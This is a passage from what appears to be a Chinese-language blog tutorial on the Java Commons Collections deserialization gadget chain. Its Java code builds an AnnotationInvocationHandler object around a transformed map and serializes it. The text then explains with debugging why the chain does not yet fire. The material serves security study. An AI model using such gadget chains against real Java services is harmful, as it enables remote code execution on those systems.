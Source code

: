 ```java
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 根据包名反射获取类对象
        Constructor annotationInvocationHandlerConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        // 由于构造方法是默认类型，所以使用 getDeclared 获取构造方法
        // 参数分别是 Class 和 Map 类型
        annotationInvocationHandlerConstructor.setAccessible(true);
        // 修改可见性
        Object object = annotationInvocationHandlerConstructor.newInstance(Override.class,transformedMap);
        // 传递构造方法的参数，两个参数分别为
        // 1. 注解的类对象
        // 2. Map

        serialize(object);
        unSerialize("ser.bin");

    }

    public static void serialize(Object object) throws Exception {
        // 序列化对象
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(object);
    }

    public static Object unSerialize(String fileName) throws Exception {
        // 反序列化对象
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(fileName));
        return ois.readObject();
    }
}
```

因为不符合 `AnnotationInvocationHandler` 中 `readObject` 的两个 if 方法，导致 `setValue` 没有执行；

debug 调试发现 `memberType` 的值是 null，所以没有进入 if 语句；

![image-20240312112719887](https://pic.mewhz.com/blog/image-20240312112719887.png)

分析源码：

```java
annotationType = AnnotationType.getInstance(type);
// 获取 type 的实例对象，也就是传入的注解类的实例对象
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
// 获取该实例对象的所有成员
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
    // 获取传入 map 对象的所有键值对
    String name = memberValue.getKey();
    // 获取其中的 key
    Class<?> memberType = memberTypes.get(name);
    // 根据获取的 key 在注解类的实例对象中所有成员寻找 value
}
// 根据传递的参数 Override.class 和 transformedMap
// Override 中并没有成员变量和方法，所以 if 无法执行
```
